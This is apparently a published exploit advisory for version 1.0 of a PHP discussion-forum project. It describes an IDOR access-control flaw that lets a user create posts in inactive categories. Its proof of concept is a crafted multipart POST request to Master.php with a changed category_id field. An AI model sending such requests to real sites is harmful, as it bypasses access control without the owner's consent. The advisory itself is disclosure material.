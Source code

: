 # Exploit Title: Online-discussion-forum-site v1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://www.sourcecodester.com/php/15337/online-discussion-forum-site-phpoop-free-source-code.html
## Tested on: Debian Linux, Apache, Mysql
## Vendor: oretnom23
## Version: v1.0
## Exploit Description:
## Online-discussion-forum-site v1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to create post in category that is inactive(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /odfs/classes/Master.php?f=save_post HTTP/1.1
...

------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="title"

aaaa
------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="category_id"

1(CHANGE HERE)
------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="content"

<p>aaaa</p>
------WebKitFormBoundaryKDuEtJHjHqr7AMTC
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryKDuEtJHjHqr7AMTC--

```